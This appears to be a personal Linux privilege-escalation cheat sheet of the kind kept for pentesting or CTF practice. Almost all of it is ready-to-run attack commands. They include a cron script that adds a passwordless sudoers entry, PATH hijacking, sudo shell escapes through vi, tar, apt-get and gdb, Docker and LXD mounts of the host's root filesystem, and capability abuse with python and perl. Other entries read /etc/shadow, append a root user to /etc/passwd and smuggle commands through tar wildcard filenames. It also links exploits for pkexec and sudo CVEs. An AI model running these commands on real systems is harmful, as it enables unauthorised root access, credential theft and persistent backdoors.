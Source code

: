 ### PRIVESC notes

### suid bits
- Finding files with suid bit

      find / -perm -u=s -type f 2</dev/null

### CRON JOBS
  <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Link to MORE ON CRON JOBS</a>
- Check cronjobs with

       cat /etc/crontab
- Check if the cron job is running with

      service cron status
  
- Script to run if you can write a cronjob script

       import os 
       import sys
       try:
          print("on it")
          os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
       except:
            print("Didn't work")
            sys.exit()

### PRIVESC WITH PATH VARIABLE MANIPULATION
- If a binary does not detail the path to run another binary e.g not using (/usr/bin/curl) {stating the path}

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f0562606-ec66-47bb-a419-9293ca0a62f1)

- You can manipulate the path and get a root shell.It should be noted the binary you are exploiting must have a suidbit

      cd /tmp
      echo "/bin/sh" > <binary you eant to attack>
      chmod 700 curl
      export PATH=/tmp:$PATH

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cf277f1d-1664-4ea8-a1f0-1461101c5006)
   
### Privesc with pkexec(suidbit) ver 0.105(CVE-2021-4034)
   Use this <a href="https://github.com/arthepsy/CVE-2021-4034">exploit</a>
   <a href="https://www.exploit-db.com/exploits/50689">Exploit db's link</a>

### if a user is allowed to run vi as root with no password

             sudo /usr/bin/vi
             :!/bin/bash

### Privesc with tar if a user can run it as root with no password
 
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/43c6206f-dda5-4b01-9ca4-af2b28e47ca6)

- Use

       sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

### Privesc with docker api on port 2375

      docker -H <IP>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

### file access

      cat /mnt/etc/shadow

### RCE <getting root with that user>

     chroot /mnt

### PRIVESC WITH APT-GET IF A USER CAN RUN IT WITH SUDO

    sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
### Privesc on sudo version 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1 [Baron Samedit]

  ### Test it with

    sudoedit -s '\' $(python3 -c 'print("A"*1000)')
- Link to exploit <a href="https://github.com/blasty/CVE-2021-3156">Link to exploit</a>

### IF SUID BIT IS SET IN A GDB BINARY

    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

### PRIVESC WITH LXC MISCONFIGURED CONTAINER

- To check if a user is part of the lxd group,use this command

  `cat /etc/passwd | awk -F ':' '{print $1}' | xargs -L1 id | grep -i "lx"`
- Check if lxd is running as user with

    `cat /etc/passwd | grep "lxd"`
- Running processes of ps -aux
  `cat /etc/passwd | grep "lxd"`

- Build a container on your machine with this commands,run it as root though

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine
 
-  Receive it on your target machine with pyhton,test directories like `/dev/shm` or`/tmp`,receive the file on your target machine
 with python http.server.Send the one with a recent date

- Initiate the image

       lxc init alpine juggernaut -c security.privileged=true
       lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
       lxc start juggernaut
       lxc list

- Execute as root

      lxc exec juggernaut sh
  
- If you cannot find storage devices,you have to create one,use brtfs and if the server does not support ipv6,set it to none

      lxd init

- After executing,breakout with `chroot /mnt/root`

- Creating a new user can help us escalate privileges,on your system,do `openssl passwd {choice of password}` and in your target machine do this



      echo '[usernameyou want]:[openssl generated hash]:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd`

### Privesc with capabilities
  Capabilities work by breaking the actions normally reserved for root down into smaller portions. The use of capabilities is only beginning to drop into userland applications as most system utilities do not shed their root privileges. Let’s move ahead that how we can use this permission more into our task.

Limited user’s permission: As we know Giving away too many privileges by default will result in unauthorized changes of data, backdoors and circumventing access controls, just to name a few. So to overcome this situation we can simply use the capability to limited user’s permission.

Using a fine-grained set of privileges: Use of capability can be more clearly understood by another example. Suppose a web server normally runs at port 80 and we also know that we need root permissions to start listening on one of the lower ports (<1024). This web server daemon needs to be able to listen to port 80. Instead of giving this daemon all root permissions, we can set a capability on the related binary, like CAP_NET_BIND_SERVICE. With this specific capability, it can open up port 80 in a much easier way.

  - To enable a binary'scapabilities, use

        setcap cap_setuid+ep /home/demo/python3
  - To find binaries with capabilities,use to check the whole system recursively

        getcap -r / 2</dev/null
  ###IF CAP_SETUID is active
  - Python binary ,use

        ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
        
  - Perl binary
    
        ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
  - Tar binary
    If CAP_DAC_READ_SEARCH is active,we can bypass restrictions and read files and access directories e.g we can read the /etc/shadow file

          ./tar cvf shadow.tar /etc/shadow  
          ls
          ./tar -xvf shadow.tar
        
### TAR WILDCARDS

            cd /opt/backup
            echo -e '#!/bin/bash\n/bin/bash' > shell.sh
            echo "" > "--checkpoint-action=exec=sh shell.sh"
            echo "" > --checkpoint=1

### PRIVESC WITH CPULIMIT binary if suid bit set

       cpulimit -l 100 -f -- /bin/sh -p



            
